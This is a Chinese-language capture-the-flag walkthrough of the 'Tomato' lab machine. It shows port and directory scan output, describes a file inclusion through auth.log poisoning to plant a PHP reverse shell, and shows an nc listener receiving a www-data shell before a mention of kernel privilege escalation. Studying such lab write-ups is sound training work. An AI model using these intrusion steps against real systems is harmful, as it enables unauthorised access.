






## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace]
└─$ sudo nmap -sT -sCV -O -p21,80,2211,8888 10.10.10.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-11 08:32 EDT
Nmap scan report for 10.10.10.31
Host is up (0.00055s latency).

PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     vsftpd 3.0.3
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Tomato
2211/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d2:53:0a:91:8c:f1:a6:10:11:0d:9e:0f:22:f8:49:8e (RSA)
|   256 b3:12:60:32:48:28:eb:ac:80:de:17:d7:96:77:6e:2f (ECDSA)
|_  256 36:6f:52:ad:fe:f7:92:3e:a2:51:0f:73:06:8d:80:13 (ED25519)
8888/tcp open   http    nginx 1.10.3 (Ubuntu)
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  Basic realm=Private Property
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: 401 Authorization Required
MAC Address: 00:0C:29:85:DC:DF (VMware)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.37 seconds

```

## 目录扫描
```bash
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.31/  -q -t 100
/server-status        (Status: 403) [Size: 276]
                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://10.10.10.31/  -q -t 100 -x txt,html,rar,zip,sql
/.html                (Status: 403) [Size: 276]
/index.html           (Status: 200) [Size: 652]
/.html                (Status: 403) [Size: 276]
/server-status        (Status: 403) [Size: 276]
                                                                                                                                                                                           
┌──(kali㉿kali)-[~]
└─$ dirb http://10.10.10.31                      

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Mar 11 08:51:46 2024
URL_BASE: http://10.10.10.31/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.10.10.31/ ----
==> DIRECTORY: http://10.10.10.31/antibot_image/                                                                                                                                          
+ http://10.10.10.31/index.html (CODE:200|SIZE:652)                                                                                                                                       
+ http://10.10.10.31/server-status (CODE:403|SIZE:276)                                                                                                                                    
                                                                                                                                                                                          
---- Entering directory: http://10.10.10.31/antibot_image/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Mon Mar 11 08:51:56 2024
DOWNLOADED: 4612 - FOUND: 2
```
要命的gobuster没扫到目录，以后还是多扫扫
找到antibot_image目录
此目录就是一个文件目录

## web渗透
找到了一个可传参数

试试读取文件吧


**关于auth.log文件**
/var/log/auth.log 或 /var/log/secure 存储来自可插拔认证模块(PAM)的日志，包括成功的登录，失败的登录尝试和认证方式。Ubuntu 和 Debian 在 /var/log/auth.log 中存储认证信息，而 RedHat 和 CentOS 则在 /var/log/secure 中存储该信息。
此文件包含了ssh登录信息

## 包含日志文件反弹shell


这里已经写进去了
hackbar执行php反弹shell


## 提权

```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvvp 53           
listening on [any] 53 ...
10.10.10.31: inverse host lookup failed: Unknown host
connect to [10.10.10.13] from (UNKNOWN) [10.10.10.31] 43828
whoami
www-data
python -c 'import pty;pty.spawn("/bin/bash")'
sh: 2: python: not found
which python3
/usr/bin/python3
python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@ubuntu:/var/www/html/antibot_image/antibots$ ls
ls
antibot.php  functions  language     screenshot-1.jpg  settings
assets       guide      license.txt  screenshot-2.jpg  table
dashboard    info.php   readme.txt   screenshot-3.jpg  uninstall.php
www-data@ubuntu:/var/www/html/antibot_image/antibots$ 
```

尝试各种内核提权了